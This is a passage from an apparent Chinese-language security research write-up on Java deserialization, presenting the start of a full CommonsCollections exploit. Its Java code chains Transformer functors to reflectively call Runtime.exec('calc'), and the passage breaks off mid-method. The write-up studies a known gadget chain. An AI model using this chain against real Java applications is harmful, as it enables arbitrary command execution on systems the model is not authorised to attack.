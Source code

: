 [![](assets/1700127979-70c0118efc7d34d06f6f5691dcc39183.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155244-20255d0c-8455-1.png)

到这里，我们的入口的地放就解决了，接下来我们嫁接cc1中的LazyMap.get这个思路从而写出完整的调用链。

### 完整exp

```plain
package org.example;


import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

public class CommonscollectionsTest {
    public static void main(String[] args) throws Exception{
        Transformer[] transformer = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);

```